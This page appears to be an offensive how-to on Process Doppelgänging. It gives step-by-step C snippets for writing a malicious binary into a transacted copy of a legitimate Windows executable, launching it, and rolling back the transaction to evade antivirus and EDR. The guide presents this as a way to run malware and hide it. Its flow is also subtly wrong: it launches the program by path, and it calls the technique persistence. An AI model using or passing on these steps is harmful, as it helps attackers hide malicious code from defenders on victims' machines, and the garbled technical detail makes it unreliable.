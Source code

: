 ```yaml
---
legal-banner: true
---
```


### **Establishing Persistence Using Process Doppelgänging**

**Process Doppelgänging** is a stealthy technique that abuses **Windows NTFS transactions** to execute malicious code disguised as a legitimate process.  
Because it avoids directly writing malicious binaries to disk, it often evades detection by traditional antivirus and EDR solutions.

### **Step 1: Creating a New Transaction**

1.  **Verify NTFS is in use**  
    This method only works on NTFS volumes due to its transactional file system features.  

2.  **Acquire necessary privileges**  
    Typically, administrative rights are required to create and manipulate transactions.  

3.  **Start an NTFS transaction**  
    Use the Windows API to begin a transaction, which allows filesystem changes without committing them:  
    ```c
    HANDLE hTransaction = CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);
    ```

### **Step 2: Replacing a Legitimate Executable**

1.  **Select a legitimate executable**  
    Pick a commonly run program with sufficient execution privileges.  

2.  **Create a transacted file with the same name**  
    Open the file within the transaction context:  
    ```c
    HANDLE hFile = CreateFileTransacted(
        L"[LegitimateExecutablePath]",
        GENERIC_WRITE,
        0,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL,
        hTransaction,
        NULL,
        NULL
    );
    ```

3.  **Write the malicious payload**  
    Load the malicious binary into memory and write it into the transacted file:  
    ```c
    WriteFile(hFile, [MaliciousExecutableData], [SizeOfData], &dwBytesWritten, NULL);
    ```

### **Step 3: Executing the Malicious Executable**

1.  **Run the transacted executable**  
    While the transaction is still active, launch the process. Windows will treat it as the legitimate program:  
    ```c
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    CreateProcess(
        NULL,
        L"[LegitimateExecutablePath]",
        NULL,
        NULL,
        FALSE,
        0,
        NULL,
        NULL,
        &si,
        &pi
    );
    ```

### **Step 4: Rolling Back the Transaction**

1.  **Rollback changes**  
    After execution, rollback the transaction to remove the malicious binary from disk while the process remains running:  
    ```c
    RollbackTransaction(hTransaction);
    ```

### **Step 5: Cleanup**

1.  **Close handles and free resources**  
    Always release allocated resources to maintain stability:  
    ```c
    CloseHandle(hFile);
    CloseHandle(hTransaction);
    ```